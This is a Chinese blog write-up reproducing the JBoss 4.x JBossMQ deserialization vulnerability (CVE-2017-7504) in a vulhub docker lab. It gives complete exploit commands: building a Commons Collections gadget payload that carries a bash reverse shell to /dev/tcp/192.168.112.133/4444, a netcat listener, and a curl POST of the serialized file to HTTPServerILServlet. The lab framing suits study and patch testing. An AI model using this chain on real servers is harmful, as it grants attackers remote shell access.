




# 漏洞复现之 JBoss 4.x JBossMQ JMS 反序列化漏洞（CVE-2017-7504） - 木讷 - 博客园

> 原文：[`www.cnblogs.com/iamver/p/11282928.html`](https://www.cnblogs.com/iamver/p/11282928.html)

**前言：**

**　　　　序列化**就是把对象转换成字节流，便于保存在内存、文件、数据库中；反序列化即逆过程，由字节流还原成对象。

Java 中的**ObjectOutputStream**类的*writeObject()*方法可以实现序列化，**ObjectInputStream**类的*readObject()*方法用于反序列化。

问题的根源在于类 ObjectInputStream 在反序列化时，没有对生成的对象的类型做限制。




Apache Commons Collections

　　　　是一个扩展了 Java 标准库里的 Collection 结构的第三方基础库，它提供了很多强有力的数据结构类型并且实现了各种集合工具类。

首先这个漏洞与 CVE-2015-7501 一样，都是利用了 Apache Commons Collections 的基础库进行 Java 反序列化漏洞的利用。

差别在于 CVE-2017-7504 利用路径是/jbossmq-httpil/HTTPServerILServlet，CVE-2015-7501 的利用路径是/invoker/JMXInvokerServlet。

此次环境尝试用 docker 搭建。

靶机:

ip:192.168.112.132

操作系统：ubuntu18.0.4 LTS

攻击机：

ip:192.168.112.133

操作系统：kali

一、环境搭建

　　1.docker 的安装参考

　　　　https://www.howtoing.com/ubuntu-docker

　　2.安装完 docker 后，直接拉取 vulhub 的源码。

　　　　https://github.com/vulhub/vulhub/tree/master/jboss/CVE-2017-7504

　　3.靶机启动服务

　　　　执行如下命令启动 JBoss AS 4.0.5

　　　　　　docker-compose up -d

 　　4.环境启动后，地址为 http://192.168.112.132:8080/

 　　

　　至此，靶机部分完成。

二、exp 准备：

*   [`github.com/joaomatosf/JavaDeserH2HC`](https://github.com/joaomatosf/JavaDeserH2HC)

　　用法实例：

　　　　1）javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1.java
　　　　2）java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1 '/bin/bash -i>&/dev/tcp/192.168.112.133/4444<&1'
　　　　3）nc -lvvp 4444
　　　　4）curl http://192.168.112.132:8080/jbossmq-httpil/HTTPServerILServlet/ --data-binary @ExampleCommonsCollections1.ser

三、exploit
　　1) 选择`ExampleCommonsCollections1WithHashMap`，编译并生成序列化数据：　　　

　　　　　　　

```
　　javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java    #编译
　　java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "bash -i >& /dev/tcp/192.168.112.133/4444 0>&1" 
　　 #ser 全称 serialize，序列化恶意数据至文件。
```

```

　　第一行命令执行完成后，将生成一个文件 ExampleCommonsCollections1WithHashMap.class
```

```
　　第二行命令执行完成后，将生成一个文件 ExampleCommonsCollections1WithHashMap.ser
```

 　　

 　　

　　2)发射：

　　将该文件作为请求数据主体发送如下数据包：
　　curl [`192.168.112.132:8080/jbossmq-httpil/HTTPServerILServlet`](http://192.168.112.132:8080/jbossmq-httpil/HTTPServerILServlet) --data-binary @ExampleCommonsCollections1WithHashMap.ser

　　 # --data-binary 意为以二进制的方式 post 数据

 　　

　　反弹成功。

　　

　　反弹 shell 也可以使用工具中预置 payload 的文件——ReverseShellCommonsCollectionsHashMap.java

　　复现过程可参考：[`www.sec-note.com/2018/03/30/Jboss/`](https://www.sec-note.com/2018/03/30/Jboss/)

 参考链接：

　　[`gv7.me/articles/2018/CVE-2017-7504/`](http://gv7.me/articles/2018/CVE-2017-7504/)

　　[`www.jianshu.com/p/d265f9514f7d`](https://www.jianshu.com/p/d265f9514f7d)

　　[`blog.chaitin.cn/2015-11-11_java_unserialize_rce/`](https://blog.chaitin.cn/2015-11-11_java_unserialize_rce/)

　　[`security.tencent.com/index.php/blog/msg/97`](https://security.tencent.com/index.php/blog/msg/97)

　　[`www.cnblogs.com/ITEagle/archive/2010/04/10/1708989.html`](https://www.cnblogs.com/ITEagle/archive/2010/04/10/1708989.html)

　　[`www.runoob.com/java/java-tutorial.html`](https://www.runoob.com/java/java-tutorial.html)

　　[`www.runoob.com/java/java-serialization.html`](https://www.runoob.com/java/java-serialization.html)